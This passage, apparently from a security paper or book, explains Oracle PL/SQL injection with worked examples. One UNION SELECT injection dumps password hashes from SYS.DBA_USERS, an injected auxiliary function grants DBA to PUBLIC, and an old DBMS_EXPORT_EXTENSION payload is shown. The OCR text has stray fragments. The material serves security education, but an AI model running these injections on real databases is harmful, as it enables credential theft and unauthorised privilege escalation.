 `SQL> CONNECT SCOTT/PASSWORD `
`Connected. `
`SQL> SET SERVEROUTPUT ON `
`SQL> EXEC SYS.GET_OWNER('AAAA'' UNION SELECT PASSWORD FROM SYS.DBA_USERS `
`-- '); `
`16B58553D83807DF 1718E5DBB8F89784 `
`24ABAB8B06281B4C `
`... `
`... `

What if they wanted to do more than just this, though, and perform a DDL
or DML operation? In Oracle, the attacker could not simply inject a
"GRANT DBA TO PUBLIC" or an "INSERT something into some table" statement
after the application defined SELECT statement. In order to achieve
this, they'd need to wrap their arbitrary SQL in a function and inject
this:

`SQL> CREATE OR REPLACE FUNCTION GET_DBA RETURN VARCHAR AUTHID `
`CURRENT_USER IS `
`  2  PRAGMA AUTONOMOUS_TRANSACTION; `
`  3  BEGIN `
`  4  EXECUTE IMMEDIATE 'GRANT DBA TO PUBLIC'; `
`  5  RETURN 'GOT_DBA_PRIVS'; `
`  6  END; `
`  7  / `

`Function created. `

`SQL> EXEC SYS.GET_OWNER('AAAA''`

| |SCOTT.GET_DBA--');

`PL/SQL procedure successfully completed. `

`SQL> SET ROLE DBA; `

`Role set. `

Here, SCOTT has created a function called GET_DBA and this is then
injected into the application defined SELECT query using the
concatenation operator - the double pipe. As part of executing the
SELECT query the database server also executes the GET_DBA function
with SYS privileges and the GRANT succeeds. This GET_DBA function is an
auxiliary inject function and it performs the real work of the exploit.
If an attacker can't create their own functions then they must find a
function that already exists on the system - a function that allows them
to execute arbitrary SQL. Prior to April 2006, when the flaw was
patched, the GET_DOMAIN_INDEX_TABLES function on the SYS owned
DBMS_EXPORT_EXTENSION package could be used:

`SQL> `
`SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTP`
`UT".PUT(:P1); EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION; `
`BEGIN EXECUTE IMMEDIATE `**`'GRANT``   ``DBA``   ``TO``
 ``PUBLIC`**`'; END;''; END;--`
`','SYS',0,'1',0) `
